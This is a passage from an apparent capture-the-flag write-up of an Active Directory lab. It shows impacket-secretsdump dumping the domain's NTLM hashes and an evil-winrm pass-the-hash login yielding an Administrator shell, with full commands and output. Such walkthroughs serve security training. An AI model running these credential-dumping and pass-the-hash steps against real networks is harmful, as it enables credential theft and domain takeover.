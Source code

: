 That was using the `-just-dc-user` switch.

Using `-just-dc-ntlm` gets much better results:

```bash
─$ impacket-secretsdump -just-dc-ntlm *********.local/backup:************* @10.10.81.46
Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:********************************:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:********************************:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:5d1d45d31626d9cc165f2dbae119d4d3:::
[*] Cleaning up...
```

Admin 32bit hash = `********************************`

### evil-winrm

Now we use [evil-winrm](https://github.com/Hackplayers/evil-winrm) aka the "Windows Remote Management" shell, to get an Admin-level shell on the AD box:

`$ evil-winrm -u $ADMIN_USERNAME -H $ADMIN_HASH -i $AD_IP`

```bash
└─$ evil-winrm -u Administrator -H ******************************** -i 10.10.81.46

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

